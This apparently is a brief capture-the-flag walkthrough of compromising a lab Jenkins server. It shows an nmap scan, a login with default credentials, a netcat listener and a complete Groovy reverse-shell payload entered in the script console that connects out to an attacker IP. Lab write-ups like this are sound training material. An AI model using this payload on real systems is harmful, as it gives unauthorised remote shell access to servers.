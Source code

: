 # 1.Port Scan
ip=10.129.169.55

nmap -sC -sV $ip

![f261ce4bd8590cf9e85e6aa0f8be7f93.png](../_resources/f261ce4bd8590cf9e85e6aa0f8be7f93.png)

# 2.Jenkins Login
**http://$ip:8080**

![a436020aeb0f7a8d8ef436b5ac90e1fc.png](../_resources/a436020aeb0f7a8d8ef436b5ac90e1fc.png)

Username: root
Password: password

![98b03cc408f4ccd87fbb4bc559d13a19.png](../_resources/98b03cc408f4ccd87fbb4bc559d13a19.png)

# 3.Flag.txt get
## Receive Port

`nc -lvnp 8000`

![fd7fa5e06604091249c39592cefef93f.png](../_resources/fd7fa5e06604091249c39592cefef93f.png)

## Reverse Shell

`http://$ip/script`

```
String host="10.10.16.8";
int port=8000;
String cmd="bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![a38fa1b7df95836f07d6892f612a6074.png](../_resources/a38fa1b7df95836f07d6892f612a6074.png)

![dff551e61ac3283b6907dbc9cba25da6.png](../_resources/dff551e61ac3283b6907dbc9cba25da6.png)